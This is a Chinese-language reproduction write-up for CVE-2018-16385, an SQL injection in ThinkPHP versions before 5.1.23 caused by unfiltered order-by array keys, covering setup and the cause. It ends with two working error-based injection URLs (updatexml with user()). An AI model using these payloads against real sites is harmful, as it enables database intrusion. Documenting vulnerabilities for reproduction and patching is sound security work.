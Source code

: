 # （CVE-2018-16385）Thinkphp < 5.1.23 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3169](https://www.zhihuifly.com/t/topic/3169)

# （CVE-2018-16385）Thinkphp 5.1.x SQL注入

## 一、漏洞简介

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

## 二、漏洞影响

ThinkPHP < 5.1.23

## 三、复现过程

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

```
curl -sS https://getcomposer.org/installer | php `mv composer.phar/usr/local/bin/composer` 
```

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

```
composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist 
```

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![image](img/505f3d280bad3198c0c7d8e58df6786b.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![image](img/1951a98ac248ee86b94f31374aaa1ecd.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![image](img/8c407e32eb23d9a8a4918ea0be1dce34.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的$order需要是一个数组。

2.$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 ` 。

最终Payload构造如下：

```
http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1 
```

或

```
http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=1 
```